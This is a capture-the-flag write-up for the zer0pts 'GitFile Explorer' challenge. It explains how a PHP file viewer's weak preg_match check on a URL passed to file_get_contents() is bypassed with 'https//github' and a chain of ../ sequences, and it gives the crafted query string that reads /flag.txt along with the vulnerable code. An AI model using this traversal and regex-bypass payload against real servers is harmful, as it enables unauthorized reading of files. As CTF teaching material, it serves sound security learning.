 # GITFILE EXPLORER

## 📄 Description

In this challenge, I need to read `/flag.txt` on the server.

![Oops](./image/description.jpg)

## 💻 Explore the website

There is a form in `/`.

![Oops](./image/home.jpg)

This feature allows user to view files in github (or gitlab, ...) which was identified by information I GET.

![Oops](./image/testfeature.jpg)

## 🧑‍💻 Processing:
**index.php:**

The code turns our information I GET into an URI and use `file_get_contents()` to fetch the data. 

I immediately got an idea about weird (in my opinion) PHP parser: PHP tries to simply all the `../` before traversing.

```php
file_get_contents('/thisDirecotyDoesNotExist/hehe/../../flag.txt'); // This is equivalent to file_get_contents('/flag.txt') 
```

This is the main idea of exploitation. So I just find a way to craft the URI which bypasses `preg_match()` and points to `/flag.txt`:

```php
if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
    $result = file_get_contents($url);
}
```

This is my way: `http://gitfile.ctf.zer0pts.com:8001/?service=https%2F%2Fgithub&file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt`. This URL gave me `$url = 'https//github/ptr-yudai/ptrlib/master/../../../../../../../../flag.txt'`

**🚩Flag: `zer0pts{foo/bar/../../../../../directory/traversal}`**

![Oops](./image/flag.jpg)

## 🤔 Questions: 
**Q1**: I go through 5 directories but why do I need up to 8 `../`?

**A1**: Because file `index.php` is in `/var/www/html` on the server. I can delete 1 `../` to make URI invalid and confirm the hypothesis through the error log.

![Oops](./image/error.jpg)

## 🤓 Notes:
There is a weird (in my opinion) URI parser in PHP.
